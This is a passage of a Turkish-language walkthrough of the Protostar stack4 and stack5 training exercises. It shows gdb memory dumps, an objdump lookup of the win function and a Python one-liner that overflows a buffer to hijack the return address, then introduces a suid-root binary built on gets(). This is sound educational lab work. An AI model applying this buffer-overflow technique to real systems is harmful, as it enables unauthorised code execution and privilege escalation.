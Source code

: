 ```bash
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x43434242	0x45454444	0x47474646	0x49494848

(gdb) p 0xbffff7bc - 0xbffff7b0
$1 = 12
```
Gördüğümüz gibi 64 + 12 byte dan sonra `ret` in üstüne yazmaya başlıyoruz.

`objdump` ile `win` in adresini bulalım:

``` bash
objdump -M intel -d stack4 | grep -A5 win
080483f4 <win>:
 80483f4:	55                   	push   ebp
 80483f5:	89 e5                	mov    ebp,esp
 80483f7:	83 ec 18             	sub    esp,0x18
 80483fa:	c7 04 24 e0 84 04 08 	mov    DWORD PTR [esp],0x80484e0
 8048401:	e8 26 ff ff ff       	call   804832c <puts@plt>
```

080483f4 = `"\xf4\x83\x04\x08"`

```
$ python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
```

# Stack 5

https://exploit-exercises.com/protostar/stack5/

```bash
ls -l stack5
-rwsr-xr-x 1 root root 22612 Nov 24  2011 stack5
# suid biti atanmış
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
